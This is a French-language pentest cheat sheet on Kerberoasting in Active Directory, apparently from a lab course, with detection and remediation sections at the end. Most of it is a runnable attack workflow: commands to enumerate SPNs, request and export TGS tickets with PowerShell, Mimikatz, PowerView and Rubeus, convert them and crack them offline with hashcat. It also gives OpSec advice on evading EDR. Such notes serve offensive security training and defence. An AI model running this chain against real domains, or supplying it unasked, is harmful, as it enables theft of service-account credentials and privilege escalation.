

Le **Kerberoasting** est une technique d'attaque visant à extraire des tickets de service (**TGS**) chiffrés depuis l'**Active Directory** pour tenter de déchiffrer hors-ligne les mots de passe des comptes de service associés. Cette attaque repose sur le fonctionnement du protocole **Kerberos**.



## Prérequis (droits nécessaires)
Pour effectuer une attaque par **Kerberoasting**, les conditions suivantes doivent être remplies :
- **Accès réseau** : Une connectivité avec le **Domain Controller** (port 88/TCP/UDP) est impérative.
- **Compte domaine** : Un compte utilisateur valide est nécessaire pour authentifier la demande de ticket. Aucun privilège élevé n'est requis initialement, car tout utilisateur peut demander un TGS pour n'importe quel service possédant un **SPN**.
- **Cibles** : Les comptes ciblés doivent avoir un attribut `servicePrincipalName` renseigné.

> [!tip] Note liée
> Voir [[Active Directory]] pour comprendre la structure des comptes de service et [[Kerberos]] pour le détail des échanges de tickets.

## Méthode Semi-Manuelle

### Énumération des SPNs avec setspn.exe
```powershell
setspn.exe -Q */*
```

### Demande d’un TGS pour un SPN spécifique
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

### Extraction des tickets en mémoire avec Mimikatz
```powershell
mimikatz # kerberos::list /export
```

### Conversion en format crackable
```bash
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi > crack_file
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Brute-Force avec hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

## Méthode Automatisée

### Énumération des utilisateurs avec SPN via PowerView
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### Récupération d’un TGS
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

### Exportation de tous les TGS en CSV
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\tickets.csv -NoTypeInformation
```

## Utilisation de Rubeus

### Énumération des comptes Kerberoastables
```powershell
.\Rubeus.exe kerberoast /stats
```

### Kerberoasting direct
```powershell
.\Rubeus.exe kerberoast /nowrap
```

### Kerberoasting ciblé sur les comptes administrateurs
```powershell
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

### Analyse des types de chiffrement
> [!info] Chiffrement RC4 vs AES
> Le chiffrement **RC4** (**etype 23**) est plus rapide à cracker que l'**AES** (**etype 18**).

```powershell
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

### Exploitation d’un ticket AES (etype 18)
```bash
hashcat -m 19700 aes_ticket_hash /usr/share/wordlists/rockyou.txt
```

## Analyse des logs (Event IDs 4769)
La surveillance du **Kerberoasting** repose sur l'analyse des logs du **Domain Controller** :
- **Event ID 4769** : "A service ticket was requested".
- **Indicateurs de compromission** :
    - `Ticket Options` : Souvent `0x40810000`.
    - `Ticket Encryption Type` : Un passage massif en `0x17` (RC4) est suspect, car les environnements modernes privilégient l'AES (`0x12`).
    - `Service Name` : Requêtes répétées pour des comptes de service différents par un même utilisateur.

## OpSec et détection
> [!danger] Risque de détection
> L'utilisation d'outils comme **Rubeus** ou **PowerView** génère un trafic réseau et des accès LDAP significatifs.
- **Filtrage** : Utiliser le filtre `admincount=1` permet de limiter le nombre de requêtes et de se concentrer sur les comptes à privilèges, réduisant ainsi le bruit généré.
- **Comportement** : Les EDR détectent souvent l'injection de code ou l'accès mémoire par **Mimikatz**. Privilégiez les méthodes natives ou des outils moins connus si l'environnement est surveillé.

## Comparaison des méthodes

| Méthode | Avantages | Inconvénients |
| :--- | :--- | :--- |
| Manuelle (**setspn**, **PowerShell**, **Mimikatz**) | Ne dépend pas d'outils externes | Plus long et fastidieux |
| **PowerView** | Scripté et rapide | Détection par l’EDR possible |
| **Rubeus** | Très automatisé, options avancées | Peut être bloqué par l'EDR |

## Stratégies de remédiation
- **Mots de passe** : Imposer des mots de passe longs (> 25 caractères) pour les comptes de service, rendant le brute-force hors-ligne infaisable.
- **gMSA** : Utiliser des **Group Managed Service Accounts** (gMSA), qui gèrent automatiquement la rotation de mots de passe complexes et longs.
- **Audit** : Configurer une alerte SIEM sur les **Event ID 4769** utilisant le chiffrement RC4.
- **Privilèges** : Restreindre les droits de lecture sur les attributs SPN si possible, bien que difficile dans un environnement AD standard.